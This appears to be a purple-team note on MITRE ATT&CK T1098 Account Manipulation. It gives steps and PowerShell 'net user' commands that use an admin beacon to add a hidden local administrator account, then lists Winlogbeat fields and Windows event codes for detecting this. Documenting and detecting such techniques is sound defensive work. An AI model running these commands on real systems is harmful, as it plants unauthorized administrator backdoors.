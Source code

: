 # [Account Manipulation](https://attack.mitre.org/techniques/T1098/)

## LOCAL USER Exploit syntax:
1. Get a beacon with local/domain administrative privileges.

2. In parrot open a blank text file and paste the following commands into it
    ```powershell
    net user /add Gearhead Squanch123;
    net localgroup administrators /add Gearhead;
    ```

3. Save the file with as Pencilvester.ps1 to /tmp

4. Run
	```sh
	sudo chmod +x /tmp/Pencilvester.ps1
	```

5.  In posh, run
    ```powershell
	pslo /tmp/Pencilvester.ps1
    ```
* Note that the above .ps1 file syntax and be modified to change the users password, delete the user, added to a different group(using net localgroup), etc
## DOMAIN USER Exploit syntax: 


## Detection Technique:
* Monitor windows events related to account manipulation

* Winlogbeat:
    * Event.code
	    * 1
    * process.args
	    * C:\windows\system32\net.exe, user, /add, Gearhead, Squanch123
    * process.command_line
	    * "C:\windows\system32\net.exe" user /add Gearhead Squanch123
    * process.executable
	    * C:\Windows\System32\net.exe
    

    * Event.code
        * 4720(added user account)
    * Event.code
        * 4726(deleted user account)
    * Event.code
        * 4738(modified user account such as password change)
    * Event.code
        * 4732(added user account to Administrators group)
    * Event.code
        * 4733(deleted user account from Administrators group)
    
    
    
